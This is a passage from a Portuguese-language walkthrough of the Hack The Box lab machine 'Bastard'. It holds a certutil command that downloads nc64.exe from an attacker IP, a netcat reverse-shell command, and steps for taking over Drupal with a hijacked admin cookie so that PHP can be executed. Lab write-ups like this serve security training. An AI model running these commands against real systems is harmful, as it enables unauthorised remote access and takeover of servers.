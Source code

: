 Executamos na página o seguinte comando: `certutil -urlcache -split -f http://10.10.16.117/nc64.exe`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_cert1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_cert2.png)

Agora executamos o comando `nc64.exe -e cmd.exe 10.10.16.117 443`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_cert3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_cert4.png)

Pronto, temos um shell, agora vamos fazer de outra maneira esse shell

# Explorando Drupal (shell de iusr - 2º Modo - Através do BurpSuite)

Bom, outro modo de se conseguir RCE nessa máquina é através do cookie de administrador que o exploit a ser executado nos fornece

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_cookie.png)

Abrimos a Extensão `Quick Cookie Manager` (mas também dava pra fazer com qualquer ferramenta, até mesmo o F12, uma vez que é só alterar o cookie)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_cookie1.png)

Agora alteramos o cookie para nos tornarmos administradores

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_cookie2.png)

Salvamos e atualizamos, viramos admin!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_cookie3.png)

Show, mas e agora, como podemos explorar isso? A ideia aqui é achar algum lugar que possamos executar php... então vamos procurar

Vamos em Módulos e habilitamos a execução de PHP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_cookie4.png)

Salvamos e fechamos o Modules, agora vamos em Content e clicamos em Add Content

Clicamos em Article

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_cookie5.png)

Adicionamos um phpinfo() para ser executado e modificamos para PHP Code onde diz a respeito de que tipo de texto está sendoe executado, pra ver se temos execução de PHP na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_cookie6.png)
